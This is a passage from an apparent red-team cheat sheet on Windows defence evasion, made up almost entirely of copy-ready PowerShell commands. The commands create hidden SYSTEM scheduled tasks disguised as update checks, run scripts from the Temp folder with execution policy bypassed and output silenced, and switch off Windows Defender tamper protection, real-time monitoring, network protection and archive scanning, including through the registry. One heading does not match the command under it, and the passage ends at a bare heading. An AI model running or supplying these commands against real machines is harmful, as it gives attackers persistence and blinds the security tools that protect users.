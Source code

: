 * Create a hidden scheduled task:

```powershell
schtasks /create /tn "UpdateCheck" /tr "C:\Windows\Temp\legit.ps1" /sc daily /st 02:00 /ru SYSTEM /f /it /np
```

**Disabling Logging in Scheduled Tasks**&#x20;

* Create a scheduled task that suppresses output:

```powershell
schtasks /create /tn "WindowsUpdate" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Windows\Temp\update.ps1 > $null 2>&1" /sc onstart /ru SYSTEM
```

## Disabling or Manipulating Security Tools&#x20;

Manipulating security tools, such as antivirus or Windows Defender, is a common evasion technique.

**Disabling Windows Defender's Tamper Protection**&#x20;

* Disable tamper protection via registry (requires restart):

```powershell
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows Defender\Features" -Name "TamperProtection" -Value 0
```

**Disabling Windows Defender Signature Updates**&#x20;

```powershell
Set-MpPreference -DisableAutoExclusions $true
```

**Disable Windows Defender Network Protection**&#x20;

```powershell
Set-MpPreference -DisableNetworkProtection $true
```

**Disable Windows Defender Scan for Archive Files**&#x20;

```powershell
Set-MpPreference -DisableArchiveScanning $true
```

**Disable Windows Defender Real-Time Monitoring**&#x20;

* Disable Windows Defender real-time protection:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

* Turn off Windows Defender via registry (requires admin privileges):

```powershell
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1
```

**Disable Windows Defender via Registry**&#x20;
